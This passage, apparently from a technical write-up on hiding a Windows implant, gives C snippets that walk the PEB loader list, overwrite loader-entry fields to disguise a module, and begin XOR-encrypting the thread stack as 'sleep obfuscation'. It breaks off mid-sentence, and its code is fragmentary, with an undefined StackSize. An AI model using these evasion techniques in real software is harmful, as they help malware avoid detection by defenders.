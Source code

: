 ```c
    PLDR_DATA_TABLE_ENTRY Data   = { 0 };
    PLIST_ENTRY           Head   = &Instance()->Teb->ProcessEnvironmentBlock->Ldr->InLoadOrderModuleList;
    PLIST_ENTRY           Entry  = Head->Flink;
    PIMAGE_NT_HEADERS     NtHdrs = { 0 };
    UINT64                Ep     = 0;
    HMODULE               Module = NULL;

    for ( ; Head != Entry ; Entry = Entry->Flink ) {
        Data = C_PTR( Entry );

        if ( strcmp( Data->BaseDllName.Buffer, ModuleName ) == 0 ) {
            Module = Data->DllBase;
            break;
        }
     }

    NtHdrs = ( (PBYTE)( Module ) + ( (PIMAGE_DOS_HEADER)( Module ) )->e_lfanew );
    Ep     = Module + NtHdrs->OptionalHeader.AddressOfEntryPoint;
    
    Data->EntryPoint = Ep;
    Data->Flags      = 0x8a2cc;
    Data->ImageDll   = 1;
    Data->LoadNotificationsSent = 1;
    Data->ProcessStaticImport   = 0;
```

We retrieve the module's address, then parse it to obtain the `AddressOfEntryPoint` and pass it to `PLDR_DATA_TABLE_ENTRY->EntryPoint`. The other values will be set according to the screenshot above.

# Heap/Stack Encryption - Plus

An important step in sleep obfuscation is to encrypt both the ``stack`` and the ``heap``. Many pieces of information such as variables, function return addresses, etc., are stored in these areas at runtime.

## Stack

To obfuscate the stack, we need its base address and size. For this, we can use the `TEB->NT_TIB.StackBase` and `TEB->NT_TIB.StackLimit` values. Once we have the base address and size, we can pass them to an encryption/obfuscation function.

```c
    PTEB Teb = NtCurrentTeb();
    PVOID  StackBase  = Teb->NtTib.StackBase;
    PVOID  StackLimit = Teb->NtTib.StackLimit;

    XorStack( StackBase, StackSize );
```

using this function to obf:
